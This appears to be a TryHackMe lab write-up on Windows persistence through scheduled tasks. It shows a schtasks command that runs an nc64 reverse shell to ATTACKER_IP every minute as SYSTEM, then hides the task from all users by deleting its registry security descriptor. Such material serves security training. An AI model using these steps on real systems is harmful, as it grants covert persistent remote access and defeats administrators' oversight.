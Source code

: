 ```yaml
---
title: 4. Abusing Scheduled Tasks 🚑
tags:
  - TryHackMe
  - Theory
---
```

We can also use scheduled tasks to establish persistence if needed. There are several ways to schedule the execution of a payload in Windows systems. Let's look at some of them:

## Task Scheduler

The most common way to schedule tasks is using the built-in **Windows task scheduler**. The task scheduler allows for granular control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or even trigger when specific system events occur. From the command line, you can use `schtasks` to interact with the task scheduler. A complete reference for the command can be found on [Microsoft's website](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/schtasks).

Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:

```shell
C:\> schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
SUCCESS: The scheduled task "THM-TaskBackdoor" has successfully been created.
```

**Note:** Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command:

```shell
C:\> schtasks /query /tn thm-taskbackdoor

Folder: \
TaskName                                 Next Run Time          Status
======================================== ====================== ===============
thm-taskbackdoor                         5/25/2022 8:08:00 AM   Ready
```

## Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.

To hide our task, let's delete the SD value for the "THM-TaskBackdoor" task we created before. To do so, we will use `psexec` (available in `C:\tools`) to open Regedit with SYSTEM privileges:

```shell
C:\> c:\tools\pstools\PsExec64.exe -s -i regedit
```

We will then delete the security descriptor for our task:

![](Pasted%20image%2020240203115037.png)

If we try to query our service again, the system will tell us there is no such task:

```shell
C:\> schtasks /query /tn thm-taskbackdoor ERROR: The system cannot find the file specified.
```

If we start an nc listener in our attacker's machine, we should get a shell back after a minute:

```shell
user@AttackBox$ nc -lvp 4449
```

